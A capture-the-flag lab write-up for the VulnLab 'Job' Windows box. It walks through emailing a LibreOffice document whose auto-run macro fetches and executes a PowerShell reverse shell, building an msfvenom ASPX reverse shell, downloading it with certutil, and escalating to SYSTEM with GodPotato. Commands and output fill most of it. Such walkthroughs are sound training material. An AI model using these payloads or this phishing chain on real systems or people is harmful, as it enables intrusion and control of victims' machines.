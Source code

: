 ```yaml
---
layout: post
title: "Job"
categories: [VulnLab]
date: 2025-04-16
tags: [SMTP, Malicious_Office, God_Potato]
image: assets/img/job_slide.png
---
```

Job is a Windows box with medium difficulty. We inject malicious code and configure it as a macro in an Office document. After gaining initial foothold, we then escalate to admin using the classic godpotato technique.

Let's start with an Nmap scan.

```bash
➜  Job nmap -p- --min-rate 1000 10.10.109.254
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 13:13 +04
Nmap scan report for job.local (10.10.109.254)
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
25/tcp   open  smtp
80/tcp   open  http
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 130.29 seconds
```

Since port 80 is open, let's visit the website (don't forget to add `job.local` to the hosts file).

<figure><img src="../assets/img/website_photo_1.png" alt=""><figcaption></figcaption></figure>

As seen on the website, they mention that they are looking for a developer and have provided an email address.

For now, the only idea that comes to mind is to create a malicious file and send it to the provided email address in hopes of achieving RCE.\
&#xNAN;_**Note:**_ If you haven’t seen this type of vulnerability before, it's quite difficult to come up with this approach on your own at first.

To support this step, I’m sharing a write-up by 0xdf that can serve as a valuable reference:\
[https://0xdf.gitlab.io/2020/02/01/htb-re.html](https://0xdf.gitlab.io/2020/02/01/htb-re.html)\
This resource is especially helpful at this stage.

As shown in the screenshot, we create a new text document (`.odt`) in LibreOffice and navigate to:\
**Tools > Macros > Organize Macros > Basic**.

<figure><img src="../assets/img/create_macros_2.png" alt=""><figcaption></figcaption></figure>

Next, we click on **Untitled**, select **New**, and give our macro a name.

<figure><img src="../assets/img/create_macros_3.png" alt=""><figcaption></figcaption></figure>

After that, we will inject our malicious code as a macro.\
Here, we’ll use `reverse.ps1` from Nishang as our reverse shell, which will allow us to gain a reverse shell connection

<figure><img src="../assets/img/create_macros_4.png" alt=""><figcaption></figcaption></figure>

```
REM  *****  BASIC  *****  
  
Sub Main  
  
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.0.210/shell.ps1')""")  
  
End Sub
```

To ensure the macro runs when the file is opened, we save it and then go to:\
**Tools > Customize**, and under the **Open Document** section, we select our custom macro.

<figure><img src="../assets/img/customize_5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../assets/img/select_macro_6.png" alt=""><figcaption></figcaption></figure>

After selecting our macro, we’ll save the file and close it.\
Now, we can edit the file we referred to as `reverse.ps1`.

```bash
➜  Job cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
➜  Job echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.8.6.29 -Port 443" >> reverse.ps1
```

Now, let's set up a web server using Python and send the email.

```bash
➜  Job python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's also start listening on port 443.

```bash
➜  Job rlwrap nc -lvnp 443
listening on [any] 443 ...
```

Send the email using Swaks.

```bash
➜  Job swaks --from tofiq@vulnlab.com --to career@job.local --header "CV" --body "CV" --attach @mail.odt --server job.local
=== Trying job.local:25...
=== Connected to job.local.
<-  220 JOB ESMTP
 -> EHLO kali
<-  250-JOB
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<tofiq@vulnlab.com>
<-  250 OK
 -> RCPT TO:<career@job.local>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Tue, 15 Apr 2025 13:51:08 +0400
 -> To: career@job.local
 -> From: tofiq@vulnlab.com
 -> Subject: test Tue, 15 Apr 2025 13:51:08 +0400
 -> Message-Id: <20250415135108.037121@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_37121"
 -> CV
 -> 
 -> ------=_MIME_BOUNDARY_000_37121
 -> Content-Type: text/plain
 -> 
 -> CV
 -> ------=_MIME_BOUNDARY_000_37121
 -> Content-Type: application/octet-stream; name="mail.odt"
 -> Content-Description: mail.odt
 -> Content-Disposition: attachment; filename="mail.odt"
 -> Content-Transfer-Encoding: BASE64
 <SNIP>
 -> 
 -> ------=_MIME_BOUNDARY_000_37121--
 -> 
 -> 
 -> .
<-  250 Queued (1.218 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

After waiting a bit, we receive the reverse shell.

```bash
➜  Job rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.109.254] 53412
Windows PowerShell running as user jack.black on JOB
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\LibreOffice\program>
```

We obtained our first flag. After exploring a bit further, we notice that we have write permissions in the directory where the web server’s files are located.

```powershell
PS C:\inetpub\wwwroot> echo "Hello VulnLab" > test.txt
```

<figure><img src="../assets/img/write_perm_7.png" alt=""><figcaption></figcaption></figure>

After this, we can use Metasploit to compromise the `DefaultAppPool` user.

```bash
➜  Job msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.6.29 LPORT=4444 -f aspx -o reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3393 bytes
Saved as: reverse.aspx
```

We transfer the file to the `inetpub/wwwroot` directory, start listening on port 4444, and then trigger the file. After that, we receive the reverse shell.

```bash
PS C:\inetpub\wwwroot> certutil -f -split -urlcache http://10.8.6.29/reverse.aspx reverse.aspx
****  Online  ****
  0000  ...
  0d41
CertUtil: -URLCache command completed successfully.
```

```bash
➜  Job rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.109.254] 54657
Microsoft Windows [Version 10.0.20348.350]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

The next step is very simple and follows a well-known method.

```powershell
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Since `SeImpersonatePrivilege` is enabled, we can easily exploit it using **GodPotato**.\
I will just read the flag, but you can find more detailed information on the exploitation process at the following GitHub page:\
[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

```bash
c:\Users\Public>.\god.exe -cmd "cmd /c type c:\users\administrator\desktop\root.txt"
.\god.exe -cmd "cmd /c type c:\users\administrator\desktop\root.txt"
[*] CombaseModule: 0x140714526179328
[*] DispatchTable: 0x140714528769912
[*] UseProtseqFunction: 0x140714528063344
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\81bb2936-6705-43bf-8d90-0191a019d742\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008002-08e8-ffff-7a29-9c596b6e174a
[*] DCOM obj OXID: 0x1b52faa4cc16b4a3
[*] DCOM obj OID: 0x4e2db48f7201ce41
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 968 Token:0x732  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 4396
VL{<REDACTED>}
```

\




